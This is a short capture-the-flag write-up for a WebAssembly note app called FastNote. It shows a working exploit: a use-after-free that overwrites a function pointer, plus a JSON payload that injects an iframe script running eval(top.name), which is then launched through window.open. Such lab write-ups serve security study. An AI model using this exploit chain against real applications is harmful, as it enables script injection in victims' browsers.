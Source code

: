 # FastNote

## Description

I heard WebAssembly is super fast, so I made a note-taking app with it. What could go wrong?

## Solution

Use After Free (UAF) to overwrite the `toHTML` function pointer to the `populateNoteHTML` JavaScript function.

![](./1.png)

![](./2.png)

```json
[
  {
    "action": "add",
    "title": "<iframe srcdoc=\"<script src=/1/;eval(top.name);//></script>\"",
    "content": ""
  },
  {
    "action": "delete",
    "noteId": 0
  },
  {
    "action": "add",
    "title": "\u0005\u0000\u0000\u0000",
    "content": ""
  }
]
```

`window.open("http://127.0.0.1/?s=WwogIHsKICAgICJhY3Rpb24iOiAiYWRkIiwKICAgICJ0aXRsZSI6ICI8aWZyYW1lIHNyY2RvYz1cIjxzY3JpcHQgc3JjPS8xLztldmFsKHRvcC5uYW1lKTsvLz48L3NjcmlwdD5cIiIsCiAgICAiY29udGVudCI6ICIiCiAgfSwKICB7CiAgICAiYWN0aW9uIjogImRlbGV0ZSIsCiAgICAibm90ZUlkIjogMAogIH0sCiAgewogICAgImFjdGlvbiI6ICJhZGQiLAogICAgInRpdGxlIjogIlx1MDAwNVx1MDAwMFx1MDAwMFx1MDAwMCIsCiAgICAiY29udGVudCI6ICIiCiAgfQpd", "alert()")`